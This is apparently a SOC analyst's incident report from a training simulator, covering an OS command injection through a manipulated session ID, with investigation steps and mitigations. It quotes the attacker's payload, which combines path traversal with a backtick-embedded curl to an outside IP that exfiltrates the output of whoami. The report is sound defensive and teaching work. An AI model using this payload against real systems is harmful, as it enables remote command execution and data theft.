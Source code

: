 **Report 3: OS Command Injection via Session ID**

**Title**: OS Command Injection Using Manipulated Session ID  
**Date**: May 30, 2025  
**Platform**: Let’s Defend SOC Simulator  
**Severity**: Critical  
**Detection** Tool: Chronicle SIEM  
**Category**: Injection

**Steps Taken:**

- Investigated unusual query logs in Chronicle SIEM  
- Detected this payload in the session ID field:  
  - SESSID=./../../../opt/panlogs/tmp/device\_telemetry/hour/aaa\\\`curl${IFS}144.172.79.92:4444?user=$(whoami)\`  
- Scanned source IP (144.172.79.92) in VirusTotal  
  - Flagged as malicious on VirusTotal  
  - GeoIP: United States  
- Verified that destination IP 172.16.17.139 had outbound connections to the attacker's server  
- Evidence suggests the command was executed and the output exfiltrated

**Final Assessment:**  
 **True Positive**. Command injection vulnerability allowed the attacker to execute shell commands (whoami) and exfiltrate data via curl.

**Mitigation Recommendations:**

- Block outbound connections to 144.172.79.92 and related malicious IPs  
- Isolate affected internal host 172.16.17.139  
- Harden web applications by validating user input and disabling command injection vectors (e.g., backticks, ${IFS})  
- Deploy a Web Application Firewall (WAF) to detect command patterns  
- Conduct full system forensics on the affected host

